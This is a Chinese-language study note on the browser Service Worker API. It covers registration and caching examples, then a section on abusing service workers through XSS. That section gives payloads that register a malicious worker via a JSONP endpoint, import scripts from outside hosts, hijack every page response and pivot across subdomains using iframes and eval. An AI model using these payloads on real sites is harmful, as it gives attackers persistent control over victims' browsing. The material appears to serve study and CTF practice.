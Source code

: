 categories:
- web
tags:
- js
- xss
- web
title:  Service Worker
---
# Service Worker

## Service Worker 学习



### 配置检查

在已经支持 serivce workers 的浏览器的版本中，很多特性没有默认开启。如果你发现示例代码在当前版本的浏览器中怎么样都无法正常运行，你可能需要开启一下浏览器的相关配置：

- **Firefox Nightly**: 访问 `about:config` 并设置 `dom.serviceWorkers.enabled` 的值为 true; 重启浏览器；
- **Chrome Canary**: 访问 `chrome://flags` 并开启 `experimental-web-platform-features`; 重启浏览器 (注意：有些特性在Chrome中没有默认开放支持)；
- **Opera**: 访问 `opera://flags` 并开启` ServiceWorker 的支持`; 重启浏览器。 

另外，你需要通过 HTTPS 来访问你的页面 — 出于安全原因，**Service Workers 要求必须在 HTTPS 下才能运行。Github 是个用来测试的好地方，因为它就支持HTTPS。为了便于本地开发，`localhost` 也被浏览器认为是安全源。**

### 注意点

1. Service Workers 要求必须在 HTTPS 或者 localhost 下才能运行
2. Service Workers 要求尽可能的异步操作



### Service Workers 的注册及安装

通过`serviceWorkerContainer.register()`来注册一个Service Workers

eg.

```javascript
if ('serviceWorker' in navigator) {
  navigator.serviceWorker.register('/sw-test/sw.js', { scope: '/sw-test/' }).then(function(reg) {
    // registration worked
    console.log('Registration succeeded. Scope is ' + reg.scope);
  }).catch(function(error) {
    // registration failed
    console.log('Registration failed with ' + error);
  });
}
```

其中scope为Service Workers的作用域，默认是scriptURL(`/sw-test/sw.js`)所在的文件夹及其子文件夹，scope的选择范围只能是scriptURL所在的文件夹或者子文件夹，且不能影响其他网站，只能影响当前的域名。

scriptURL是相对于origin的URL而不是相对于引用他的那个JS文件，当然也有例外（ `Content-Type` 必须是 `text/javascript`）

> 如果你的 service worker 被激活在一个有 `Service-Worker-Allowed` header 的客户端，你可以为service worker 指定一个最大的 scope 的列表。

安装过程：

![image1496](https://mdn.mozillademos.org/files/12636/sw-lifecycle.png)





### 处理事件

Service Workers支持的事件如下



![image1603](https://mdn.mozillademos.org/files/12632/sw-events.png)

install:安装时会触发InstallEvent

activate:安装事件之后调用activate事件

fetch:Service Workers 中的所有请求都会触发fetch事件

sync:当发起一个同步请求是会触发sync事件







```javascript
this.addEventListener('install', function(event) {
  event.waitUntil(
    caches.open('v1').then(function(cache) {
      return cache.addAll([
        '/sw-test/',
        '/sw-test/index.html',
        '/sw-test/style.css',
        '/sw-test/app.js',
        '/sw-test/image-list.js',
        '/sw-test/star-wars-logo.jpg',
        '/sw-test/gallery/',
        '/sw-test/gallery/bountyHunters.jpg',
        '/sw-test/gallery/myLittleVader.jpg',
        '/sw-test/gallery/snowTroopers.jpg'
      ]);
    })
  );
});

self.addEventListener('activate', function(event) {
  var cacheWhitelist = ['v2'];

  event.waitUntil(
    caches.keys().then(function(keyList) {
      return Promise.all(keyList.map(function(key) {
        if (cacheWhitelist.indexOf(key) === -1) {
          return caches.delete(key);
        }
      }));
    })
  );
});

self.addEventListener('fetch', function(event) {
  event.respondWith(
    caches.match(event.request).then(function(resp) {
      return resp || fetch(event.request).then(function(response) {
        return caches.open('v1').then(function(cache) {
          cache.put(event.request, response.clone());
          return response;
        });  
      });
    })
  );
});
```





## Service Worker With XSS



### XSS简单示范



通过Service Worker 可以持久的控制受害者

利用条件如下：

1. 一个xss点
2. MIME TYPE 为 application/javascript的可控页面（通常是jsonp）



`index.php?xss=navigator.serviceWorker.register("/sw/jsonp.php?xss=importScripts(%27https://serviceworker.free.beeceptor.com/exp.js%27);");`



exp.js

```
self.addEventListener('fetch', function(event) {
  event.respondWith(new Response('<h1 style="color:red">HACKED</h1>',{headers: { 'Content-Type': 'text/html' }}));
});
```

### 利用Service Workers 控制主站及其子站点

假设在A.evil.com上存在XSS点，B.evil.com上存在可控jsonp，

那么我们可以通过设置`document.domain="evil.com"`，嵌入一个iframe（src=B.evil.com），然后执行恶意代码插入Service Workers

A站点执行(使用self.skipWaiting()使的Service Workes 控制当前界面)

```javascript
document.domain="evil.com";
a=document.createElement("iframe");
a.src="https://B.evil.com/";
document.body.append(a);
document.getElementsByTagName("iframe")[0].addEventListener("load",()=>{fuck()})
function fuck(){
    var code = `navigator.serviceWorker.register("/jsonp.php?callback=self.importScripts('//mysite.com/fuck.js')//")`;
    document.getElementsByTagName("iframe")[0].contentWindow.eval(code);
}

```

这样我们便控制住了B站点



fuck.js

```javascript
document.domain="hardxss.xhlj.wetolink.com";
a=document.createElement("iframe");
a.src="https://auth.hardxss.xhlj.wetolink.com";
document.body.append(a);
document.getElementsByTagName("iframe")[0].addEventListener("load",()=>{fuck()})
function fuck(){
    var code = `navigator.serviceWorker.register("/api/loginStatus?callback=self.importScripts('//serviceworker.free.beeceptor.com/exp.js');//")`;
    document.getElementsByTagName("iframe")[0].contentWindow.eval(code);
}

```



exp.js

```
self.addEventListener('fetch', function(event) {
  event.respondWith(new Response('<h1 style="color:red">HACKED</h1>',{headers: { 'Content-Type': 'text/html' }}));
});


```









## 参考

教程：https://developer.mozilla.org/zh-CN/docs/Web/API/Service_Worker_API/Using_Service_Workers

API：https://developer.mozilla.org/zh-CN/docs/Web/API/Service_Worker_API

https://lightless.me/archives/XSS-With-Service-Worker.html